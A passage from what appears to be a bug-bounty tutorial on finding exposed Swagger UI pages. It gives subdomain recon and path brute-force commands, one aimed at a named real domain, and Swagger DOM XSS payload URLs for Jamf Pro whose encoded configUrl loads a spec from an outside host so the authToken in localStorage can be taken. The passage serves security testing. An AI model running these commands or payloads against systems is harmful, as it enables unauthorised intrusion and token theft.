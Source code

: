 cat ip.txt | sort -u| nuclei -t Swagger.yaml
cat domains.txt | sort -u | nuclei -t Swagger.yaml
Automation with Subfinder and Httpx
Now, let’s move on to a simpler and more hands-on method using Subfinder and Httpx. Start by running Subfinder on your target domain to enumerate all subdomains. Then pipe the results into Httpx to identify live hosts. From there, filter the output for URLs that contain Swagger-related paths and titles

# 1. Find Swagger UI on all subdomains of a target
subfinder -d target.com -all | httpx-toolkit -silent -title | grep "Swagger UI" — Enumerate all subdomains, probe them for HTTP responses, and filter those with a "Swagger UI" page title.

# 2. Detect Swagger, OpenAPI, Redoc, or RapiDoc on a list of domains
cat swagger.txt | httpx-toolkit -silent -title | grep -Ei "swagger|openapi|redoc|rapidoc" — Scan each domain in `swagger.txt` for exposed API docs by checking page titles for popular documentation keywords.

# 3. Probe common Swagger documentation paths on a single domain
echo "example.com" | httpx -path /docs,/swagger,/api-docs,/swagger-ui,/swagger-ui.html — Check if specific Swagger/OpenAPI paths are reachable on a given domain.
Path Brute-Forcing with Custom Wordlists
Now, let’s dive into directory and path brute-forcing an effective technique for uncovering hidden Swagger files and endpoints. While tools like ffuf work well, I recommend using Dirsearch for better coverage and reliability. With the right wordlist Dirsearch can identify all common Swagger paths and extensions

ffuf -w /root/wordlist/api/swagger_xss.txt:FUZZ -w alive_ones.txt:URL -u URLFUZZ -mc 200 -o ffuf-result.txt

dirsearch -u https://api.getsling.com -w payloads/swagger.txt -e html,json,yaml,js -t 20 --random-agent --force-recursive --full-url
swagger/swagger-wordlist.txt at main · coffinxp/swagger
Contribute to coffinxp/swagger development by creating an account on GitHub.
github.com

DOM XSS via Swagger UI in Jamf Pro
You can even discover Swagger-based XSS vulnerabilities in Apple ecosystem tools like Jamf Pro, which uses Swagger to document its Classic API. Interestingly, Jamf Pro stores the authentication token in localStorage under the key authToken, making it a potential target for client-side attacks if XSS is present.

https://VULNERABLE_JAMF/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9zdGFuZGluZy1zYWx0LnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==

/index.html?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3Byb2plY3RkaXNjb3ZlcnkvbnVjbGVpLXRlbXBsYXRlcy9tYWluL2hlbHBlcnMvcGF5bG9hZHMvc3dhZ2dlci1wYXlsb2FkIgp9'
To identify this vulnerability, use the default Nuclei template linked to the Jamf Pro CVE. it scans for Swagger issues and reveals the document origin and exposed authToken. You can also test it manually by visiting the Classic API docs (e.g., /api-docs or /swagger). If vulnerable, the token appears in localStorage allowing potential XSS or token leakage.
